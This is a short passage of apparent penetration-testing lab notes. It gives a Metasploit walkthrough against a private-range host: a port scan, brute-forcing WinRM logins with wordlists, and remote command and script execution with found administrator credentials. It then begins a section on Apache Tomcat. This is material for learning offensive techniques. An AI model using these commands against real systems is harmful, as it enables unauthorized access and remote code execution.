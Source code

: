```bash
db_status
setg RHOSTS 10.2.27.173
setg RHOST 10.2.27.173
workspace -a WinRM

db_nmap -sS -sV -O -p- 10.2.27.173
# Port 5985 is set up for WinRM
```

```bash
search type:auxiliary winrm
use auxiliary/scanner/winrm/winrm_auth_methods
options
run

# Brute force WinRM login
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
run
```

![](assets/image-20230416114857268.png)

```bash
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

### Apache Tomcat

[**`Apache Tomcat`**](https://tomcat.apache.org/) is a free open source Java servlet web server, *build to host dynamic websites and web apps developed in **Java***.
